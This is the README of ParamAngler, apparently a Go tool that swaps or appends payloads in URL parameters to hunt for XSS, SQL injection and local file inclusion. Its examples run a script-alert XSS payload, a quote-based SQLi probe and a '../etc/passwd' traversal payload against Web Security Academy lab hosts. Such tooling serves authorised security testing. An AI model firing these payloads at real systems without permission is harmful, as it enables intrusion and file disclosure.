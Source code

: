 # ParamAngler

Introducing ParamAngler - the ultimate tool for testing specific payloads on each parameter. The name ParamAngler is a combination of two words - 'parameters' and 'angler'. An angler is someone who enjoys fishing with a rod and line, and with ParamAngler, you can fish for bugs on a much larger scale.

Whether you're looking for XSS, LFI, SQLi, or other vulnerabilities in your web application, ParamAngler has got you covered. With its powerful and easy-to-use features, you can search for reflected parameters, test for payloads, and much more.

Say goodbye to tedious manual testing and hello to ParamAngler - your new go-to tool for comprehensive and efficient web application testing. Try ParamAngler today and start reeling in those bugs!

# Usage

```bash
$ ParamAngler  -h                       

.__               .__.           
[__) _.._. _.._ _ [__]._  _ | _ ._.
|   (_][  (_][ | )|  |[ )(_]|(/,[  
                         ._|       


Remember that bug bounty and security tools should only be used ethically and responsibly.
Misuse of these tools can lead to harm and legal consequences.
Use these tools with caution and obtain permission before performing any testing or analysis.

Usage: ParamAngler [OPTIONS]
Options:
  -a    flag indicating whether to append payload to existing parameter value or replace it entirely
  -f string
        input file containing list of URLs
  -h    display usage information
  -mc string
        HTTP response code(s) to filter on (comma-separated)
  -ms string
        String to search for in the response body
  -p string
        payload to replace or append parameter values with
  -s    hide banner
  -t int
        Number of goroutines to use (default 1)

```

## Example of testing XSS

```
cat xss.txt | ParamAngler -mc 200 -ms alert -p "<script>alert(1)</script>" -t 10 -s                              
https://0abd007403fc917cc561317200f20054.web-security-academy.net/?search=%3Cscript%3Ealert%281%29%3C%2Fscript%3E
```

We are filter responses to return only **200** code and there has to be **alert** text in response body. We alse set -s parameter to sillent banner and set thread by -t flag to 10 


## Example of SQLi testing

```
cat sql.txt | ParamAngler -mc 500 -p \' -a -t 20
https://0a7e001a039591bfc50737d800250075.web-security-academy.net/filter?category=Lifestyle%27
https://0a7e001a039591bfc50737d800250075.web-security-academy.net/filter?category=Corporate+gifts-%27
https://0a7e001a039591bfc50737d800250075.web-security-academy.net/filter?category=Corporate+gifts%27
https://0a7e001a039591bfc50737d800250075.web-security-academy.net/filter?category=Accessories%27
https://0a7e001a039591bfc50737d800250075.web-security-academy.net/filter?category=Pets%27
https://0a7e001a039591bfc50737d800250075.web-security-academy.net/filter?category=Corporate+gifts%22%27
```

We use simple quote as payload but with -a flag we append this quote to existing payload. We are filtering by 500 error code which usually can suggest SQLinjection


## Example of LFI

```
cat lfi.txt | go run main.go -ms root -p "../../../../../etc/passwd" -t 10
https://0a21001903252a0ac0e5727c0060004c.web-security-academy.net/image?filename=..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd  
```

Similar as XSS example but now we are looking for root string on response body

## TODO

- [ ] - Add support for proxy  